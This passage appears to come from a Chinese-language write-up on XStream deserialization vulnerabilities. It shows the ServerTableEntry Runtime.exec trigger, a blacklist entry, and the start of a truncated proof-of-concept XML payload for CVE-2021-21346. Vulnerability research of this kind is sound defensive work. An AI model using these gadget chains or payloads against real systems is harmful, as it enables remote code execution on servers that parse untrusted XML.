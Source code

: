 ```
</java.util.PriorityQueue>
```

### [](#分析-1 "分析")分析

长得很像，出发点是一样的PriorityQueue，RCE触发点是com.sun.corba.se.impl.activation.ServerTableEntry

```java
   private String activationCmd;
   public int verify()
   {
       try {

           if (debug)
               System.out.println("Server being verified w/" + activationCmd);

           process = Runtime.getRuntime().exec(activationCmd);
           int result = process.waitFor();
           ...
           
   //synchronized 是同步锁
synchronized void activate() throws org.omg.CORBA.SystemException
   {
       state = ACTIVATED;

       try {
           if (debug)
               printDebug("activate", "activating server");
           process = Runtime.getRuntime().exec(activationCmd);
       } catch (Exception e) {
       ..
```

### [](#黑名单：-2 "黑名单：")黑名单：

```java
com.sun.corba.se.impl.activation.ServerTableEntry
private static final Pattern GETTER_SETTER_REFLECTION = Pattern.compile(".*\\$GetterSetterReflection");
```

[](#CVE-2021-21346 "CVE-2021-21346")CVE-2021-21346
--------------------------------------------------

author: wh1t3p1g

### [](#POC-2 "POC")POC

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='javax.swing.MultiUIDefaults' serialization='custom'>
      <unserializable-parents/>
      <hashtable>
        <default>
          <loadFactor>0.75</loadFactor>
          <threshold>525</threshold>
        </default>
        <int>700</int>
        <int>0</int>
      </hashtable>
      <javax.swing.UIDefaults>
        <default>
          <defaultLocale>zh_CN</defaultLocale>
          <resourceCache/>
```